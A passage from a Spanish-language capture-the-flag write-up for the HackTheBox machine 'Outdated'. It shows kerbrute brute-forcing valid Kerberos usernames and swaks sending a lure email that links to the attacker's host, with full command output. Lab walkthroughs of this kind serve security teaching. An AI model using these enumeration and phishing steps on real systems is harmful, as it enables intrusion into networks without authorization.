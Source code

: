 En el PDF pone que espera un link que va a ser abierto para guardarlo en una plataforma de alertas y notificaciones

En paralelo, enumero por kerberos posibles usuarios válidos a nivel de sistema con un ataque de fuerza bruta

```null
kerbrute userenum --dc 10.10.11.175 -d outdated.htb /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: dev (n/a) - 01/05/23 - Ronnie Flathers @ropnop

2023/01/05 21:50:51 >  Using KDC(s):
2023/01/05 21:50:51 >  	10.10.11.175:88

2023/01/05 21:50:57 >  [+] VALID USERNAME:	guest@outdated.htb
2023/01/05 21:51:11 >  [+] VALID USERNAME:	administrator@outdated.htb
2023/01/05 21:53:34 >  [+] VALID USERNAME:	Guest@outdated.htb
2023/01/05 21:53:35 >  [+] VALID USERNAME:	Administrator@outdated.htb
2023/01/05 21:53:45 >  [+] VALID USERNAME:	client@outdated.htb
2023/01/05 22:02:04 >  [+] VALID USERNAME:	GUEST@outdated.htb
```
Como ningún usuario es ASP-RepRoasteable, no ha servido de nada la enumeración

A través del puerto 25 (snmp), envio un link con swaks para validar que es cierto y visualizar el User Agent

```null
swaks --to itsupport@outdated.htb --from rubbx@rubbx.com --body "http://10.10.14.2/" --header "Subject: Internal web app"
=== Trying outdated.htb:25...
=== Connected to outdated.htb.
<-  220 mail.outdated.htb ESMTP
 -> EHLO localhost
<-  250-mail.outdated.htb
<-  250-SIZE 20480000
<-  250-AUTH LOGIN
<-  250 HELP
 -> MAIL FROM:<rubbx@rubbx.com>
<-  250 OK
 -> RCPT TO:<itsupport@outdated.htb>
<-  250 OK
 -> DATA
<-  354 OK, send.
 -> Date: Thu, 05 Jan 2023 22:05:19 +0000
 -> To: itsupport@outdated.htb
 -> From: rubbx@rubbx.com
 -> Subject: Internal web app
 -> Message-Id: <20230105220519.023507@localhost>
 -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
 -> 
 -> http://10.10.14.2/
 -> 
 -> 
 -> .
<-  250 Queued (11.203 seconds)
 -> QUIT
<-  221 goodbye
=== Connection closed with remote host.
```
